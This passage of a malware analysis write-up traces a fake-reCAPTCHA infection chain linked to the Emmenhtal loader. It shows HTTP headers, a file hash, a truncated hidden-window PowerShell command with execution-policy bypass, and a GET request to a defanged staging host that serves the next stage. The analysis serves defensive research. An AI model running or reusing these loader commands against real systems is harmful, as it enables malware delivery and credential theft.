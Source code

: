```http
HTTP/1.1 200 OK
Date: [REDACTED]
Content-Type: application/json
Transfer-Encoding: chunked
Connection: keep-alive
ETag: [REDACTED]
Last-Modified: Sun, 15 Dec 2024 20:49:17 GMT
Vary: Accept-Encoding
CF-Cache-Status: DYNAMIC
Report-To: [REDACTED]
Server: cloudflare
CF-RAY: 8f2a9b09d8dfe98e-ORD
Content-Encoding: gzip
alt-svc: h3=":443"; ma=86400
server-timing: [REDACTED]
```

The HTTP response headers claim that the file is a JSON file, but is actually a binary. The linux `file` command just calls it `data` and Detect it Easy calls it `Plain text`. ANY.RUN [identified][any.run] this as an instance of [Emmenhtal][Emmenhtal-anyrun], a malware loader first named in [a report][Emmenhtal-orange] by Orange CyberDefense. The content does not match the description in the Orange CyberDefense report, so this might be a new version of Emmenhtal.

`mshta` executes PowerShell in a hidden window, passing in the script as a base64-encoded string. Unfortunately, I not have been to get it to execute properly when passing it to `mshta` from the local filesystem.

SHA256: `45636e25ae21958e6acddf177240c593ef552d2416f5eef98ae20bf778a78efd`<br>
File size: 1.3 MB

## The second loader stage: PowerShell calling downloaded PowerShell

```powershell
"C:\Windows\SysWow64\WindowsPowerShell\v1.0\powershell.exe" -w hidden -ep bypass -nop -enc UwBlAHQAL...
```

When decoded and executed this PowerShell script loads and executes the third stage of the loader, a large, heavily-obfuscated PowerShell script.

![A screenshot of the decoded loader script](/assets/images/fake-recaptcha-powershell-loader.webp)

```http
GET https://flac.mindful-journal[.]shop/shell HTTP/1.1
Host: flac.mindful-journal[.]shop
Connection: Keep-Alive
```

```http
HTTP/1.1 200 OK
Date: [REDACTED]
Content-Type: text/plain; charset=utf-8
Content-Length: 9175469
Connection: keep-alive
X-Powered-By: Express
ETag: [REDACTED]
Set-Cookie: connect.sid=[REDACTED]; Path=/; HttpOnly
CF-Cache-Status: DYNAMIC
Server: cloudflare
CF-RAY: 8f2a9b22b8dd1407-ORD
alt-svc: h3=":443"; ma=86400
server-timing: [REDACTED]
```


[Reddit]: https://www.reddit.com/r/MechanicalKeyboards/comments/11xda93/beware_of_gmkkeycapscom_theyre_selling_clone_gmk/?rdt=35317
[ANY.RUN]: https://app.any.run/tasks/1fe14da0-9d9e-4fdc-9a09-60ba91a0f46a
[Emmenhtal-Anyrun]: https://any.run/malware-trends/emmenhtal
[Emmenhtal-Orange]: https://www.orangecyberdefense.com/global/blog/cert-news/emmenhtal-a-little-known-loader-distributing-commodity-infostealers-worldwide
[PowerDecode]: https://github.com/Malandrone/PowerDecode
[T1656]: https://attack.mitre.org/techniques/T1656/
[T1190]: https://attack.mitre.org/techniques/T1190/
[T1204]: https://attack.mitre.org/techniques/T1204/
[T1218.005]: https://attack.mitre.org/techniques/T1218/005/
[T1059.001]: https://attack.mitre.org/techniques/T1059/001/
[T1027.010]: https://attack.mitre.org/techniques/T1027/010/
[T1555]: https://attack.mitre.org/techniques/T1555/
[T1539]: https://attack.mitre.org/techniques/T1539/